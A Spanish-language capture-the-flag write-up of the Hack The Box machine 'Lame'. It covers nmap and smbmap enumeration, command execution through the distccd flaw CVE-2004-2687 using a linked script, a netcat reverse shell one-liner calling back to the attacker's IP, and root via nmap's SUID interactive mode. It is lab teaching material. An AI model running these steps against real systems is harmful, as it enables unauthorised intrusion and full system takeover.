 ```yaml
---
title: Lame
published: true
categories: [Linux,Medium] 
tags: [CVE-2004-2687, SUID abuse]
author: Alejandro Rivera
image:
  path: https://user-images.githubusercontent.com/55555187/182438375-f8bc8639-3cfa-4ab9-86e2-216e908d73ba.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Lame es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca el CVE-2004-2687 sobre el servicio distccd y la explotación del permiso SUID sobre nmap para lograr una shell como root.

## Reconocimiento y explotación

```bash
sudo nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.3
```

![2022-07-29-16-53-54-image](https://user-images.githubusercontent.com/55555187/182438597-5014882a-f246-401c-adb9-386c52202e29.png)

```bash
sudo nmap -sVC -p21,22,139,445,3632 -oN portSV 10.10.10.3 
```

![2022-07-29-18-08-05-image](https://user-images.githubusercontent.com/55555187/182438606-b7b00aea-5c15-4e1e-8c89-9aef315ab671.png)

El servicio FTP permite acceder como el usuario **anonymous** pero no tiene nada.

En el servicio **Samba** hay una serie de directorios pero solo podemos acceder a **/tmp** en el cual tenemos permisos de escritura y lectura.

```bash
smbmap -H 10.10.10.3 -R
```

![2022-07-29-18-10-24-image](https://user-images.githubusercontent.com/55555187/182438605-c5911c2b-8bbd-4906-bf95-f0cadf5f73e3.png)

Sin embargo, los archivos del directorio no tienen nada relevante.

Por otra parte, el puerto 3632 está ejecutando **distccd** que tiene una serie de vulnerabilidades asociadas. En concreto, voy a hacer uso del **CVE-2004-2687** que parece explotar un buffer overflow que permite ejecutar comandos como el usuario daemon. 

Buscando en Github encuentro un script en Python 2 que permite explotar el CVE [(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855).

![2022-07-29-16-53-25-image](https://user-images.githubusercontent.com/55555187/182438601-0a0098d1-0d82-4319-b7fd-f0639e1e8f3a.png)

Como tengo RCE compruebo que la máquina tiene netcat mediante el comando *which netcat* y que tiene el parámetro -e habilitado mediante el comando *nc -h*. 

Como se cumplen ambas condiciones, puedo intentar entablarme una reverse shell:

```bash
nc -e /bin/bash 10.10.14.4 443
```

![2022-07-29-18-14-28-image](https://user-images.githubusercontent.com/55555187/182438603-c6a7ca60-1754-41b1-9130-80566839ae67.png)

Al hacer el tratamiento de la tty por algún motivo se queda pillado por lo que decido seguir la explotación con una shell un tanto rancia.

## Elevación de privilegios

Compruebo si el usuario está en algún grupo relevante pero no es el caso.

Reviso el **/etc/passwd** y veo que los únicos usuarios con una /bin/bash asociada son daemon, makis y root.

Trato de lanzar pspy para enumerar tareas cron pero da un error raro al ejecutarse por lo que decido tirar de linPEAS.

A través de linPEAS descubro que nmap tiene permisos SUID lo que supone un vector para escalar privilegios usando el modo interactivo.

![2022-07-29-17-26-03-image](https://user-images.githubusercontent.com/55555187/182438596-4d653dc6-8a49-4f3a-8631-284db23b14ef.png)

El modo interactivo permite, entre muchas otras cosas, spawnear una shell la cual, al tener nmap el bit SUID activo, se genera como root.

![image](https://user-images.githubusercontent.com/55555187/183289289-09b6242d-d65f-46f3-9037-9ec844563c69.png)

**Nota:** durante la fase de elevación de privilegios tuve que cambiar de servidor ya que en el que estaba, nmap daba error debido a que la persona que explotó la máquina anteriormente no cerró el modo interactivo antes de cerrar la shell, provocando un fallo EOF a todo el que intente abrir la sesión interactiva de nmap :/
